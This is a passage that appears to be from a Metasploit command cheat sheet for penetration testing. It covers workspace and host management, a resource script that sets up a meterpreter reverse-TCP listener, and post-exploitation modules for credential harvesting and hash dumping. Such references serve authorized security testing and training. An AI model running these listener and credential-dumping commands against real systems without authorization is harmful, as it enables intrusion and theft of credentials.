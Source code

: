 ### Workspace Management
```bash
# List workspaces
workspace

# Create workspace
workspace -a pentest_lab

# Switch workspace
workspace pentest_lab

# Delete workspace
workspace -d old_pentest
```

### Host & Service Management
```bash
# Add host
hosts -a 192.168.1.100

# List hosts
hosts

# Add service
services -a -p 80 -s http 192.168.1.100

# List services
services

# Import nmap scan
db_import /tmp/nmap_scan.xml
```

## 🔧 Resource Scripts
```bash
# Create resource script
echo "use exploit/multi/handler" > handler.rc
echo "set payload windows/meterpreter/reverse_tcp" >> handler.rc
echo "set LHOST 192.168.1.200" >> handler.rc
echo "set LPORT 4444" >> handler.rc
echo "exploit -j" >> handler.rc

# Run resource script
resource handler.rc
```

## ⚠️ Post-Exploitation

### Information Gathering
```bash
# System enumeration
run post/windows/gather/enum_system
run post/linux/gather/enum_system

# Credential harvesting
run post/windows/gather/credentials/credential_collector
run post/windows/gather/smart_hashdump

# Network enumeration
run post/windows/gather/enum_domain
run post/multi/gather/ping_sweep
```
